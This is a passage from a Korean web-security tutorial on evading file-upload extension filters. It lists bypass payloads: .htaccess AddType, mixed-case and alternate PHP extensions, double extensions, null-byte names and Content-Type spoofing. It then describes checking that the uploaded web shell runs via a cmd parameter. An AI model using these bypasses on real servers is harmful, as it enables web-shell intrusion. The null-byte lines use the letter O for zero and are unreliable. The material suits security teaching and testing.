 ### 파일 확장자 검증
개발자는 .php .jsp 등 위험한 파일의 확장자명을 선별한 후 사용자로부터 업로드되는 파일명에 포함된 확장자명을 비교하여 위험한 확장자인 경우 업로드를 차단하는 블랙리스트 방식이나 안전한 확장자인 경우에만 업로드를 허용하는 화이트리스트 방식을 종종 사용한다.

- .htaccess 파일 업로드
웹 서버가 Apache이고, .htaccess 파일을 업로드할 수 있다면 아래의 구문이 포함된 .htaccess 파일을 업로드하여 php파일이 아닌 jpg 파일을 마치 PHP 스크립트처럼 실행할 수 있다
```
AddType application/x-httpd-php .jpg
```
이 구문이 포함된 파일을 성공적으로 업로드하였다면 PHP 웹쉘 코드가 포함된 JPG 파일을 업로드하여 웹쉘 실행이 가능하다

- 대소문자를 혼용한 확장자명
가끔 웹 개발자는 확장자 검사를 위한 문자열 비교 시 실수를 저지르는데 바로 php 확장자만 차단하는 경우이다. 이를 우회하면 아래와 같이 확장자를 변경해 우회할 수 있다
```
shell.pHp
shell.Php
shell.phP
shell.PHp
shell.PhP
```

- 잘 알려지지 않은 확장자
웹 서버의 잘못되거나 불필요한 설정으로 인해 다음과 같은 확장자를 PHP 스크립트로 인식하고 실행시킬 수 있다.
```
shell.php3
shell.php4
shell.php5
shell.php7
shell.phtml
shell.phtm
shell.pht
shell.phar
```

- 확장자 속이기
필터가 사용자로부터 업로드된 파일명에서 첫번째 도트 문자 뒤에 오는 문자열을 추출하여 확장자로 식별하는 경우 확장자를 여러 번 사용하여 우회할 수 있다.
```
shell.jpg.php
shell.png.php
shell.txt.php
```

- NULL 문자 삽입
파일명 중간에 NULL 문자를 끼워넣어 우회가 가능하다. 필터는 이 파일들을 안전한 파일로 인식하지만 시스템에서 NULL은 문자열의 끝을 의미하므로 NULL 문자 뒤의 확장자는 무시되고 정상적으로 PHP 스크립트로 실행된다.
```
shell.php%OO.jpg
shell.php%OO.png
shell.php%OO.txt
```

- MIME TYPE 검증
업로드되는 파일의 MIME TYPE을 검사하여 허용하거나 차단하는 방식이다. Burp Suite 같은 프록시 도구를 이용하여 요청을 가로챈 다음 Content-Type 헤더를 웹 애플리케이션이 허용되는 유형으로 변경하여 우회할 수 있다.
```
# 변경 전 요청 Content-Type
Content-Type: application/x-php

# 변경 후 요청
Content-Type: image/jpeg
```
## 5. 웹쉘 동작 확인
웹쉘이 정상적으로 업로드되었다면 아마 웹쉘은 2. 에서 확인했던 위치에 저장된다. 웹 브라우저에서 웹쉘의 URL을 방문해보고 웹쉘에서 명령 실행에 사용된 cmd 매개변수를 통해 시스템에 무해한 명령을 테스트로 전송해본다

